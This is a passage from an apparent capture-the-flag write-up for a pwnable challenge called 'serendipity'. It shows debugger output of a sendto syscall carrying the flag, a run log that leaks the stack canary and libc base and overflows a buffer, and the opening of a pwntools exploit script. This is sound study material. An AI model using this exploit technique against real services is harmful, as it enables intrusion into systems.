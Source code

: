 ```c
pwndbg> 
```

So, finally we set those arguments respectively

```c
 ► 0x7f744cb4101b <__netlink_close+11>        syscall  <SYS_sendto>
        fd: 0xb (socket:[153083])
        buf: 0x7f744cc1a8c8 (buffer) ◂— 'server_flag\nlag'
        n: 0xc
        flags: 0x0
        addr: 0x560df594a3c0 ◂— 0x100007fa8d10002
        addr_len: 0x10
   0x7f744cb4101d <__netlink_close+13>        ret  
```


Result:
```c
╭─    ~/CTF/Pwnable/2023/wc2023/serendipity    master !1 ?38                                                                       1 ✘  w1n_gl0ry@phis1Ng ─╮
╰─ python3 remote.py                                                                                                                                               ─╯
[*] '/home/w1n_gl0ry/CTF/Pwnable/2023/wc2023/serendipity/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 0 on port 9981: Done
bc94fefbc0aeccc762678d353d911917c32ce5266a0df70afd4bef072fb147ec
b'auth successfully\n'
[*] canary: 0x63648f5a8f209500
[*] libc.address: 0x7f744ca00000
[*] Paused (press any to continue)
b"In the moon's tender embrace, shadows waltz in a silvery dance, weaving dreams with a gentle trance.\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
[*] Switching to interactive mode
file can't be read
server_flag
$ 
```

Final script:
```python
from pwn import *
from ctypes import *
import socket 
from time import sleep 
import sys

libc=ELF('./libc.so.6')
glibc = cdll.LoadLibrary('libc.so.6')
#io=remote('157.245.147.89', 24210, typ="udp")
io=remote('0', 9981, typ='udp')

opcode=[0x301, 0x101, 0x201]

def printdata(size, data):
    pl=p32(0x70303070)
    pl+=p32(opcode[0])
    pl+=p16(size)
    pl+=data
    io.send(pl)
    
```